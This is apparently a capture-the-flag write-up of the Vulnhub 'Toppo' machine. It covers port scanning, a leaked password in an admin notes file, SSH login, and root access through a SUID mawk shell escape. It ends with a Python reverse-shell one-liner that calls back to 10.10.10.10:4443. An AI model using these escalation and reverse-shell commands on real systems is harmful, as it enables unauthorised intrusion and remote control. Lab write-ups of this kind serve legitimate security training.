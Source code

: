 ```yaml
---
title: Toppo
category: Vulnhub
--- 
```


## Enumeration

- Started the default enumeration. Found the TCP ports below:

```plaintext
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
52932/tcp open  unknown
```

- Also ran nmap UDP scan, which returned the ports

```plaintext
PORT    STATE         SERVICE VERSION
68/udp  open|filtered dhcpc
111/udp open          rpcbind 2-4 (RPC #100000)
MAC Address: 00:0C:29:AD:EF:56 (VMware)
```

- Using nikto, some folders where enumerated, but the one that called attention was /admin

- Inside /admin there was a file called notes.txt containing the text below

```plaintext
- - Note to myself :

I need to change my password :/ 12345ted123 is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .
```

- Assuming that ted is the username, once wasn't able to find it through any other enumeration, tried to SSH to box, once that 22/tcp is open.

- As ssh connection worked, started enumerating using LinEnum.sh, where these were the interesting findings

  - User ted is allowed to run /usr/bin/awk as root

```plaintext
ted ALL=(ALL) NOPASSWD: /usr/bin/awk
```

- Root is allowed to ssh
- Noticed that system listen to other ports internally, not allowed externally
  - TCP 36808
  - UDP 34995
  - UDP 59288
  - UDP 68
  - UDP 611
  - UDP 57751
  - UDP 12712
- SUID file /usr/bin/mawk found
- SUID /usr/bin/python2.7 world writable
- Besides user has permissions to sudo as root awk, sudo file doesn't exist, so this options is discharged
- Checking the SUID file mawk, checked on [gtfobins](https://gtfobins.github.io/gtfobins/mawk/) that there was a way to privesc directly
  - Executed /usr/bin/mawk 'BEGIN {system("/bin/sh")}' which worked.
- Getting the content of /root/flag.txt file

```bash
# cat flag.txt
_________                                  
|  _   _  |                                 
|_/ | | \_|.--.   _ .--.   _ .--.    .--.   
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \ 
    _| |_ | \__. | | \__/ | | \__/ || \__. | 
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                  [__|     [__|            

Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}
```

- Exploring other privesc possibilities

- Noticed that the same would work for awk, even without sudo

- As /usr/bin/python2.7 has SUID set as root, it is also possible to get a reverse shell elevated this was.

```plaintext
/usr/bin/python2.7 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
